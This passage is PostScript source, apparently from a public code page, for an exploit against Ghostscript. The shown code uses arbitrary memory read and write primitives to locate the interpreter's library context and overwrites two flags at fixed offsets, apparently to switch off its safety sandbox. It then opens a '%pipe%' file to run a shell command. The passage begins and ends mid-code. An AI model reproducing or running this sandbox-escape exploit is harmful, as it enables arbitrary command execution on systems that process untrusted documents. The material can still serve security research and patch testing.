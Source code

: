 ```postscript
} bind def

/DONE {
    /MAGIC TARGET REFIDX get def
    /STRPTR MAGIC 8 8 getinterval def
    /ARRPTR MAGIC 24 8 getinterval def

    (patch) = flush

    /arrptr 8 string def
    arrptr 0 ARRPTR 0 8 copystr

    {
        /arrsz 8 string def

        /next arrptr -40 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <d886010000000000> eq { exit } if % 100056

        /next arrptr -56 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <e886010000000000> eq { exit } if % 100072

        (unknown header layout) = quit
    } loop

    {
        /head next def

        /next 8 string def
        /cname 8 string def
        /cname_str 21 string def

        head next arbrd
        head 32 ptradd cname arbrd
        cname cname_str arbrd

        cname_str (gs_lib_ctx_init(core)) eq { exit } if
    } loop

    /buf 4 string def
    /ptr1 head 188 ptradd def
    /ptr2 head 204 ptradd def
    ptr1 buf arbrd buf <01000000> eq { ptr1 <00000000> arbwr } if
    ptr2 buf arbrd buf <01000000> eq { ptr2 <00000000> arbwr } if

    (exec) = flush
    (%pipe%ls) (w) file

    (done) = flush

    /head next def
    head next arbrd

    /ptr3 next -56 ptradd def
    /buf2 8 string def

    8 {

        ptr3 buf2 arbrd
        /ptr3 buf2 def

    } repeat
```
